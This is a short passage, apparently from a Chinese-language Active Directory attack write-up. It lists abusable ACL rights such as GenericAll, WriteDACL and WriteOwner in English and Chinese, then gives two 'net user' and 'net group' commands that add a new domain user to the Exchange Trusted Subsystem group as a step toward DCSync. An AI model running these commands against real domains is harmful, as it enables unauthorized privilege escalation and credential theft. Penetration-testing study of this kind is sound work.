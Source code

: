 ## DCSync 权限

```bash
● GenericAll – full rights to the object (add users to a group or reset user’s password)
GenericAll -对象的完全权限（将用户添加到组或重置用户的密码）
● GenericWrite – update object’s attributes (i.e logon script)
GenericWrite -更新对象的属性（即登录脚本）
● WriteOwner – change object owner to attacker controlled user take over the object
WriteOwner -将对象所有者更改为攻击者控制的用户接管对象
● WriteDACL – modify object’s ACEs and give attacker full control right over the object
WriteDACL -修改对象的 ACE 并给予攻击者对对象的完全控制权
● AllExtendedRights – ability to add user to a group or reset password
AllExtendedRights -将用户添加到组或重置密码的能力
● ForceChangePassword – ability to change user’s password
ForceChangePassword -更改用户密码的能力
● Self (Self-Membership) – ability to add yourself to a group
Self（Self-Membership）- 将自己添加到组的能力
```

[![](assets/1700545055-5edb0f96dfea5098e2626b4b0339608a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103029-c5334634-874c-1.png)

在 Exchange 受信任子系统组上滥用权限  
net user /add testz1 testz1@qq.com /domain  
net group /add 'Exchange Trusted Subsystem' testz1 /domain

[![](assets/1700545055-87a3f124996c36ad31c95ce693b35348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103037-ca18cf70-874c-1.png)
